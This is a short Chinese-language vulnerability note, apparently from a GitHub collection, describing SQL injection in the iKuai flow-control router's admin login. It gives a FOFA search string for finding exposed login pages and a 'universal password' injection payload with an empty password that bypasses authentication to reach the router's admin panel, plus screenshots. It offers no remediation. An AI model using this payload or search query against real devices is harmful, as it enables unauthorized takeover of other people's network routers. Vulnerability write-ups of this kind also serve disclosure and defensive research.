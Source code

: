 # iKuai 流控路由 SQL注入漏洞

## 漏洞描述

iKuai 流控路由 存在SQL注入漏洞，可以通过SQL注入漏洞构造万能密码获取路由器后台管理权限

## 漏洞影响

```
iKuai 流控路由
```

## FOFA

```
title="登录爱快流控路由"
```

## 漏洞复现

登录页面如下

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202140931704.png)

使用万能密码登录后台

```plain
user: "or""=""or""="
pass: 空
```

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202140931830.png)